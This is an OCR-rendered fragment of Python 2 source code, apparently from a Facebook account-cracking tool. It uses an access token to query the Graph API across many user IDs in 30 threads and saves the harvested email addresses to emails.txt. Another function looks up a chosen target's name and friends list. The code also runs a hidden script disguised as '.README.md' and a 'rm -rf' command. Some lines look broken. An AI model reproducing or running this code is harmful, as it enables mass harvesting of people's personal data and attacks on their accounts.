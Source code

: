 			
	def main(arg):
		global cpb,oks
		user = arg
		try:
			data = session.get("https://graph.facebook.com/"+user+"/?access_token="+toket)
			q = json.loads(data.text)
			if "email" not in q:
				pass
			else:
				if "email" in q:
				    gms = q["email"]
				    print (user + "  |  " + gms + "\n")
				    bms.open("emails.txt", "a")
				    bms.write(user + "  |  " + gms + "\n")
				    bms.close()
																	
															
		except:
			pass
		
	p = ThreadPool(30)
	p.map(main, id)
	print (50*"-")
	print ("[✓] Process Has Been Completed ....")
	print("[✓] File Has Been Saved : emails.txt")
	raw_input("\n[Back]")
	if xxx == "0":
		crack_menu()
	else:
		os.system("python2 .README.md")
		
def gbnmbr():
	global toket
	os.system("clear")
	try:
		toket=open("....","r").read()
	except IOError:
		print("[!] Token invalid")
		os.system("rm -rf ....")
		time.sleep(1)
		os.system("python2 bxi.py")
	else:
	    agbn()

def agbn():
	bch = ("2")
	if bch =="":
		print ("[!] Fill in correctly")
		agbn()
	elif bch =="2":
		os.system("clear")
		print (logo)
		idt = raw_input("[✓] Enter ID : ")
		os.system("clear")
		print (logo)
		try:
			jok = session.get("https://graph.facebook.com/"+idt+"?access_token="+toket)
			op = json.loads(jok.text)
			psb("[✓] Account  Name: "+op["name"])
			time.sleep(0.5)
		except KeyError:
			print("[!] ID Not Found!")
			raw_input("\n[Back]")
			gbnmbr()
		r = session.get("https://graph.facebook.com/"+idt+"/friends?access_token="+toket)